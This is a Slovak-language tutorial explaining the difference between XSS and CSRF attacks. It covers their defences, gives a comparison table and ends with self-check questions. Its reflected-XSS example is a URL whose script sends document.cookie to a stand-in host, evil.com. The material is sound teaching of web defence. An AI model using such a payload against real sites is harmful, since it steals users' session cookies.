

# CSRF a XSS Základy

Dve z najbežnejších tried webových útokov — rôzne mechanizmy, rôzne obrany, ľahko sa zamenia len
podľa mena.

## XSS (Cross-Site Scripting) — vloženie skriptu, ktorý beží ako obeť

XSS sa stane, keď útočník dosiahne, aby **jeho vlastný JavaScript bežal v prehliadači iného
používateľa**, v kontexte legitímnej stránky — čo znamená, že ten skript môže robiť čokoľvek, čo
mohol JavaScript skutočnej stránky: čítať cookies (pokiaľ nie sú `HttpOnly`, pozri
[Cookies a Session](./cookies-and-sessions.md)), robiť autentifikované požiadavky, čítať obsah
stránky.

```text title="Klasický príklad reflected-XSS"
https://example.com/search?q=<script>fetch('https://evil.com/steal?c='+document.cookie)</script>
```

Ak stránka zoberie `q` z URL a vykreslí ho do stránky **bez escapovania**, ten `<script>` tag sa
naozaj spustí v prehliadači obete, akoby ho napísala samotná stránka.

**Základná obrana**: vždy escapuj/kóduj obsah poskytnutý používateľom pred jeho vykreslením do
HTML — moderné frameworky (React, Vue, väčšina templovacích enginov) toto predvolene robia za
teba, čo je veľká časť dôvodu, prečo je XSS menej bežné, než býval. Znovu sa objaví kedykoľvek
niečo zámerne obíde toto predvolené escapovanie (`dangerouslySetInnerHTML` v React, `v-html` vo
Vue, surová konkatenácia stringov do HTML).

## CSRF (Cross-Site Request Forgery) — oklamanie prehliadača, aby poslal požiadavku, ktorú by nemal

CSRF vôbec nevkladá žiadny skript — zneužíva fakt, že prehliadač **automaticky** pripája cookies
k požiadavkám, aj tým spusteným úplne inou stránkou.



Obeť nikdy nemusí nič vidieť ani na nič kliknúť zjavne — skrytý automaticky odosielaný formulár
alebo aj jednoduchý `` (pre naivne
postavený `GET` endpoint — pozri prečo nebezpečné akcie nikdy nesmú používať `GET`, v
[Idempotencia a Bezpečnosť](../02-methods-and-semantics/idempotency-and-safety.md)) stačí.

**Základné obrany**:
- **`SameSite` cookies** (`Lax` alebo `Strict` — pozri [Cookies a Session](./cookies-and-sessions.md))
  — zastaví prehliadač pripájať cookie k cross-site požiadavke vôbec. Toto samo osebe uzatvára
  väčšinu CSRF ciest útoku v moderných prehliadačoch.
- **CSRF tokeny** — unikátna, nepredvídateľná hodnota vložená do legitímneho formulára stránky,
  kontrolovaná pri odoslaní. Útočníkova sfalšovaná požiadavka nemôže vopred poznať túto hodnotu
  (nie je to niečo, čo cookie automaticky nesie), tak sfalšované odoslanie zlyhá na kontrole.

## Kľúčové rozlíšenie, vedľa seba

| | XSS | CSRF |
|---|---|---|
| Čo robí | Spustí JS útočníka v prehliadači obete | Oklame prehliadač, aby poslal požiadavku, ktorú používateľ nezamýšľal |
| Čo zneužíva | Chýbajúce escapovanie výstupu | Automatické pripájanie cookies pri cross-site požiadavkách |
| Hlavná obrana | Escapuj všetok vstup od používateľa pred vykreslením | `SameSite` cookies + CSRF tokeny |
| Vie čítať odpovede? | Áno (je to vlastný JS, bežiaci s plným prístupom k stránke) | Nie (útočník nikdy nevidí odpoveď, len spustí požiadavku) |

Oboje nakoniec cieli na to isté — dôveru, ktorú server kladie do "požiadavka prišla s platnou
session cookie, takže musí byť legitímna" — z dvoch rôznych uhlov.

## Skontroluj sa

- Čo naozaj zneužíva XSS, a čo naozaj zneužíva CSRF — jedna veta na každé?

  <details>
  <summary>Odpoveď</summary>

  XSS zneužíva chýbajúce escapovanie výstupu, aby spustil vlastný JavaScript útočníka v
  prehliadači obete. CSRF zneužíva automatické pripájanie cookies prehliadačom, aby ho oklamal
  poslať požiadavku, ktorú používateľ nezamýšľal.
  </details>

- Pomenuj obe hlavné obrany proti CSRF, a čo presne každá z nich zastaví.

  <details>
  <summary>Odpoveď</summary>

  `SameSite` cookies zastavia prehliadač v pripájaní cookie k cross-site požiadavke vôbec. CSRF
  tokeny sú nepredvídateľná hodnota, ktorú sfalšovaná požiadavka nemôže vopred poznať,
  kontrolovaná pri odoslaní.
  </details>

- Vie XSS čítať odpoveď požiadavky, ktorú spustí? Vie to CSRF? Prečo na tomto rozdiele záleží pre
  to, čo každý útok naozaj dokáže dosiahnuť?

  <details>
  <summary>Odpoveď</summary>

  XSS áno — je to vlastný JS útočníka bežiaci s plným prístupom k stránke. CSRF nie — útočník
  nikdy nevidí odpoveď, len spustí požiadavku. Preto CSRF samotné dokáže spustiť nechcenú akciu,
  ale nedokáže vytiahnuť dáta tak, ako XSS.
  </details>
